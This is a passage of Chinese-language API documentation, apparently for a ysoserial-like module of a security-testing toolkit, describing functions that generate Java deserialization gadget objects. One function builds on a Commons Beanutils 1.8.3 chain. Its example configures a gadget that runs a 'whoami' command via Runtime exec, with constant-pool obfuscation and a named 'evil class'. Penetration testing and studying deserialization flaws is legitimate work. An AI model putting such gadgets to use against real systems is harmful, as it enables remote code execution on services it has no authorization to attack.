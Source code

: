 
#### 定义

`GetClick1JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsBeanutils183NOCCJavaObject

#### 详细描述
GetCommonsBeanutils183NOCCJavaObject 基于Commons Beanutils 1.8.3 序列化模板生成并返回一个Java对象。

去除了对 commons-collections:3.1 的依赖。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = "whoami"
className = "KEsBXTRS"
gadgetObj,err = yso.GetCommonsBeanutils183NOCCJavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetCommonsBeanutils183NOCCJavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |
